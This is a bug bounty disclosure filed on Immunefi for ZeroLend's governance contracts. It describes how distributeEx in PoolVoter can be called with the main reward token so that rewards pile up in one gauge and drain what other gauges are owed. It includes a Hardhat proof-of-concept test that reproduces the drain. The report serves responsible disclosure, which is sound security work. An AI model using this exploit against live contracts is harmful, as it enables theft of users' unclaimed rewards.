 # 28955 - \[SC - High] Malicious user can transfer all unclaimed rewar...

Submitted on Mar 3rd 2024 at 01:16:07 UTC by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28955

Report type: Smart Contract

Report severity: High

Target: https://github.com/zerolend/governance

Impacts:

* Theft of unclaimed yield

## Description

## Brief/Intro

A malicious user can distribute reward tokens to a specific pool gauge through distributeEx function at PoolVoter without resetting claimable mapping.

## Vulnerability Details

There are two distribute methods in PoolVoter. a distribute function, which is intended to transfer any claimable reward of a gauge and notifyRewardAmount in that gauge then reset claimable mapping , also there is a distributeEx function which is intended to distribute additional rewards proportionally to all gauges, it takes a rewards token address (a token that would be distributed ) and several pool addresses to distribute rewards, the distributed amount has been calculated based on pool weight proportion to the total weight. however, it doesn't check the token address provided as the parameter is not the main reward token, so the main reward token can be transferred through this function without resetting claimable mapping, which enables transferring more yield to a specific gauge, leading to a situation which contract doesn't have enough balance to distribute reward of other gauges. most rewards can transferred to a gauge to benefit the attacker.

## Impact Details

Malicious users can transfer more rewards to a gauge ( almost all rewards ), in favor of themselves, which is considered direct theft of unclaimed yields.

## References

https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L214-L234 https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L181-L190

## Proof of Concept

```
describe("transfer rewards test", () => {
  it("Malicious user can transfer all rewards to a speciefic gauge", async function () {
  
  // NOTE: this test works with https://github.com/zerolend/governance/commit/4c18c037bd3360ec7316733478b67632fb5218c9 commit 
  // tests didn't work at latest commit, however there is no change at pool voter other than changing some variable names between two commits 
  // so there is no differece 
  // some parts has been added to deployement as follow
  // a new lending pool has been deployed during deployment and its gauge has been registered at pool voter during deployment 
  // some zero tokens has been transferred to ant.address, so ant.address have enough zero token balance 
  // there is an issue at line 136 of PoolVoter by missing a ! sign, which prevents adding pools to _pool array and preventing distribute rewards 
  // since this issue relates to distributing rewards I needed to fix that so distribute function works by fixing if statement 
  // however I submitted that issue seperately and its different from this issue 

  // voting to both gauges equally 
  let vote1 = 1e8/2;
  let vote2 = 1e8/2; 
  await poolVoter.connect(ant).vote([reserve.target, reserve2.target],[vote1, vote2]);
 
  // notify some zero token rewards to pool voter 
  await zero.connect(ant).approve(poolVoter.target, 1e6);
  await poolVoter.connect(ant).notifyRewardAmount(1e6);

  let gauge = poolVoter.gauges(reserve.target);
  let gauge2 = poolVoter.gauges(reserve2.target);

  // update status of both gauges 
  await poolVoter.updateFor(gauge);
  await poolVoter.updateFor(gauge2);

  // retrieve total claimable amount and pool voter contract balance 
  let totalClaimable = await poolVoter.claimable(gauge) + await poolVoter.claimable(gauge2);
  let balance = await zero.balanceOf(poolVoter);

  // ensure pool voter has enough balacne to distribute claimable rewards 
  expect(balance).greaterThanOrEqual(totalClaimable);

  // call distributeEx with zero token address to distribute rewards to first gauge without reseting its claimable mapping 
  await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

  // retrieve total claimable and balance after distribution 
  let totalClaimableAfter = await poolVoter.claimable(gauge) + await poolVoter.claimable(gauge2);
  let balanceAfter = await zero.balanceOf(poolVoter);

  // currently balance is less than totalClaimable 
  // balance is decreased but totalClaimable has not been changed 
  // so there is not enough balance to cover distributing all rewards 
  expect(balanceAfter).lessThan(totalClaimableAfter);
  expect(balanceAfter).lessThan(balance);
  expect(totalClaimable).eq(totalClaimableAfter);

  // so we can claim rewards for first gauge again, transfering all rewards to first gauge and there is not balance to transfer reward of second gauge 
  await poolVoter["distribute(address)"](gauge);


  });
});
```

